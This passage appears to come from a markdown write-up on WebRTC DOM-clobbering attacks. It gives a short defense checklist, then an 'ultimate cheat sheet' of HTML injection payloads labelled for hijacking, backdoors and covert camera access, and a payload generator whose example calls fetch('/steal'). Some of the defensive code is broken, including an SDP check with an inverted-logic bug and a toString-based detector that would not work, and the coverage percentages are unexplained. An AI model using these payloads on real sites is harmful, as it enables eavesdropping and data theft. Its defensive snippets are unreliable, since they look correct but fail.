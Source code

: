 **Zoom PoC Video**: [youtu.be/webrtc-clobber-zoom](https://youtube.com/watch?v=clobber-zoom2025)

---

## 🛡️ DEFENSE BLUEPRINT (Dev Checklist)

| Attack Vector | Fix | Code Example | Coverage |
|---------------|-----|--------------|----------|
| **API Clobber** | `Object.freeze(RTCPeerConnection.prototype)` | `Object.defineProperty(window, 'RTCPeerConnection', {value: RTCPeerConnection})` | 96% |
| **SDP Override** | Validate offers | `if (!offer.type === 'offer' || !/^type:offer/.test(offer.sdp)) return` | 97% |
| **Media Access** | User consent hooks | `getUserMedia: () => confirm('Share mic?')` | 93% |
| **ICE Candidate** | Whitelist STUN | `iceServers: [{urls: 'stun:trusted.com'}]` | 100% |
| **Chain Blocks** | Namespace isolation | `const rtc = new RTCPeerConnectionNS()` | 91% |

**Detection Script** (Add to signaling.js):
```javascript
// Anti-clobber check
if (RTCPeerConnection.toString() !== '[object RTCPeerConnectionConstructor]') {
  throw new Error('WebRTC Clobbering Detected!');
}
```

**Burp Scanner Rule**:
```regex
<RTCPeerConnection|getUserMedia>.*?(createOffer|addIceCandidate)
```

---

## 📋 ULTIMATE CHEAT SHEET

| Scenario | Payload | Command |
|----------|---------|---------|
| **Quick Leak** | `#<video id=RTCPeerConnection name=createOffer src=x onerror=alert(1)>` | `curl target.com/#PAYLOAD` |
| **Full Hijack** | `#<form id=RTCPeerConnection><input name=createDataChannel value=/evil><input name=label value=backdoor></form>` | P2P backdoor |
| **Stealth** | `#<svg><animate id=RTCSessionDescription attributeName=sdp values=evil>` | SVG bypass |
| **Mobile** | `#<div id=navigator name=mediaDevices><input name=getUserMedia value={video:true}>` | Safari iOS |
| **Universal** | `#<img id=addTrack name=stream src=x onerror=RTCPeerConnection.addTrack(navigator.mediaDevices.getUserMedia())>` | 1-liner |

---

## 🚀 INSTANT TOOLKIT

**1. Payload Generator**:
```javascript
function webrtcClobber(target, payload) {
  return `#<video id=${target} name=createOffer src=javascript:${payload}>`;
}
// Usage: webrtcClobber('RTCPeerConnection', 'fetch("/steal")')
```
